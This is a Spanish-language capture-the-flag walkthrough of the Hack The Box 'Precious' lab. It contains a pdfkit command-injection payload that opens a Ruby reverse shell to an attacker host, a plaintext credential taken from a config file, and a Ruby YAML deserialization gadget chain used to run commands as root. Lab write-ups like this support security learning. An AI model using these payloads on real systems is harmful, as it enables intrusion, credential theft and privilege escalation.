




# Precious


Primero debemos agregar la direccion IP a /etc/hosts
```
IP=ip_addr
$ sudo echo -e "$IP\tprecious.htb" >> /etc/hosts
```

Realizamos un escaneo con nmap para inspeccionar los puertos abiertos
```
$ sudo nmap -sC -Pn -n T5 precious.htb
# Nmap 7.93 scan initiated Sat Apr 29 13:05:42 2023 as: nmap -sC -T5 -Pn -n -oN scan.nmap precious.htb
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http
|_http-title: Convert Web Page to PDF

# Nmap done at Sat Apr 29 13:05:47 2023 -- 1 IP address (1 host up) scanned in 5.13 seconds
```

Al inspeccionar la pagina web observamos lo siguiente


Por medio de la herramienta BurpSuite inspeccionamos lo que sucede cuando intentamos introducir una URL.



Nos indica que no se pudo cargar la URL, por lo que intentamos realizar lo mismo nuevamente, pero esta vez vamos a cargar un archivo local usando python3 http.server


Como podemos ver en la imagen, el archivo se cargo correctamente y se convirtio en PDF, ahora si inspeccionamos la consola del navegador web, podremos ver que el pdf se genero usando pdfkit v0.8.6



Usando searchsploit podeoms ver que la herramienta pdfkit presenta una vulnerabilidad de inyeccion de codigo

```
$ searchsploit pdfkit
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                            | ruby/local/51293.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Practicamente lo que sucede es que la herramienta no realiza una sanitizacion adecuada para el valor "URL=..." que se envia en el body de la solicitud POST. Por lo que si un usuario quisiera obtener acceso podria enviar el siguiente payload.

```
url=http://<our_ip_addr>:8000/testing.html=http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("<our_ip_address>","<our_listening_port>"))'`
```
Antes de enviar el anterior PAYLOAD, solo tendriamos que poner el puerto <our_listening_port> en modo escucha y posteriormente obtendriamos el reverse shell.

A continuacion una demostracion usando el exploit creado por UNICORD.



Una vez obtenido acceso a la maquina, procedemos a encontrar una forma de escalar privilegios, para ello primero debemos encontrar las credenciales del usuario henry.

```
whoami
ruby
cd
pwd
/home/ruby
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  1 01:07 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  1 01:07 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
cd .bundle
ls
config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Ahora iniciamos una sesion SSH usando las credenciales encontradas en el archivo /home/ruby/.bundle/config y posteriormente inspeccionaremos que cosas interesantes podemos hacer usando sudo -l

```
ssh henry@precious.htb        
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Podemos usar el comando /usr/bin/ruby para ejecutar el script /opt/update_dependencies.rb sin embargo ni el archivo /usr/bin/ruby ni /opt/update_dependencies.rb es modificable asi que hay que inspeccionar detenidamente el script /opt/update_dependencies.rb para ver que podemos hacer.

```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml")) # <-- YAML deserializacion 
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Al examinar la funcion list_from_file, podremos observar de que se intenta abrir el archivo "dependencies.yml" el cual no esta creado en el propio directorio donde se encuentra /opt/update_dependencies.rb

Lo que se puede hacer a continuacion es dirigirse a un directorio en el que podamos crear archivos e insertar un payload que nos permita ejecutar comandos como root al momento de que ocurra la deserializacion en el archivo "dependencies.yml"


El payload que se va a usar se obtuvo de https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <COMANDO_QUE_QUEREMOS_EJECUTAR_COMO_ROOT>
         method_id: :resolve
```
Insertamos el payload en un archivo llamado "dependencies.yml" y procedemos con la ejecucion del script


